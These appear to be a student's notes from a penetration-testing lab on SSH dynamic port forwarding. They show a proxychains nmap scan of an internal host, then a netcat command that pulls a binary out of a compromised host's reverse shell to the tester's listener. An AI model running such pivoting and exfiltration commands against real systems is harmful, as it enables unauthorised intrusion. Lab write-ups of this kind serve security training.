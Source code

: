 - Run proxychains for nmap scan
```bash
proxychains nmap -p 4800-4900  -Pn 172.16.233.217                                                                                             
	[proxychains] config file found: /etc/proxychains4.conf
	[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
	[proxychains] DLL init: proxychains-ng 4.17
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-23 18:30 EDT
	...
	[proxychains] Strict chain  ...  192.168.233.63:9999  ...  172.16.233.217:4872  ...  OK
	...
	Nmap scan report for 172.16.233.217
	Host is up (0.20s latency).
	
	PORT     STATE SERVICE
	4872/tcp open  unknown
	...
```



2. Download the client binary **ssh_dynamic_client** from **hxxp://CONFLUENCE01:8090/exercises/ssh_dynamic_client**.
   Using Proxychains, run it against the port you just found.

Note: the source files used to build the **ssh_dynamic_client** binary can be downloaded from **/exercises/client_source.zip**.

- Use nc to download file
```bash
# Tab in kali - listener
nc -nlvp 4444 > ssh_dynamic_client

# W/in CONFLUENCE01's revshell
nc 192.168.45.154 4444 < ../confluence/exercises/ssh_dynamic_client
``` 

- Test binary for instructions & run
```bash
chmod +x ssh_dynamic_client

proxychains ./ssh_dynamic_client 172.16.233.217 -p 4872
	[proxychains] config file found: /etc/proxychains4.conf
	[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
	[proxychains] DLL init: proxychains-ng 4.17
	error: Found argument '172.16.233.217' which wasn't expected, or isn't valid in this context
	
	USAGE:
	    ssh_dynamic_client [OPTIONS]
	
	For more information try --help


./ssh_dynamic_client --help
	prat_server 0.1.0
	
	USAGE:
	    ssh_dynamic_client [OPTIONS]
	
	OPTIONS:
	    -h, --help                 Print help information
	    -i, --ip-addr <IP_ADDR>    [default: 127.0.0.1]
	    -p, --port <PORT>          [default: 4141]
	    -V, --version              Print version information


proxychains ./ssh_dynamic_client -i 172.16.233.217 -p 4872
```
